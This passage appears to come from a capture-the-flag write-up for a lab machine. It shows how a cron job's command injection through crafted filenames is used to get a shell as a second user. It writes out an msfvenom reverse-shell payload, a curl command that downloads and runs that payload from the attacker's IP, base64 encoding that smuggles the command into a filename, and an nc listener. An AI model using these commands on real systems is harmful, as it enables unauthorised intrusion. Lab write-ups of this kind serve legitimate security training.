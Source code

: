 Nice! it looks like the cron job is running and as the user `guly` since `bubba.test` was created with those permissions. To get a shell as `guly`, upload a new reverse shell payload and execute it using the command injection vulnerability. One trick to note is that creating a filename that contains a `/` is forbidden in Linux. Getting around this can be done using the `base64` Linux utility and piping the output to `/bin/sh`:

- **NOTE:** Another option is to use the system `nc` to get a reverse shell since, after more enumeration, it supports the `-e` option to execute a binary upon connection. However, this kind of `nc` is uncommon to find, so using `base64` is a more portable method.

```bash
# on kali, make a new payload
msfvenom -p linux/x86/shell_reverse_tcp \
         LHOST=10.10.14.17 \
         LPORT=7777 \
         –e x86/shikata_ga_nai \
         -i 9 \
         -f elf \
         -o bubba.guly.elf
# on kali, host the payload on port 8080
python3 -m http.server 8080
# on kali, wait for the callback
nc -nvlp 7777
# on target, delete test payload
rm '/var/www/html/uploads/69; touch bubba.test #.txt'
# on target, generate payload string
echo 'curl -s -o /tmp/bubba.guly.elf http://10.10.14.17:8080/bubba.guly.elf && chmod +x /tmp/bubba.guly.elf && /tmp/bubba.guly.elf' | base64
# on target, trigger command injection vulnerability 
# NOTE: replace <payload> with base64 output from previous command
touch '/var/www/html/uploads/69; echo "<payload>" | base64 -d - | sh #.txt'
```

And after waiting for a few, this gives a new shell with `user.txt`:

![user](./networked/user.png)

After further enumeration as this new user, there are some interesting `sudo` permissions for the user `guly`:

```bash
sudo -l
```

![sudo](./networked/sudo.png)
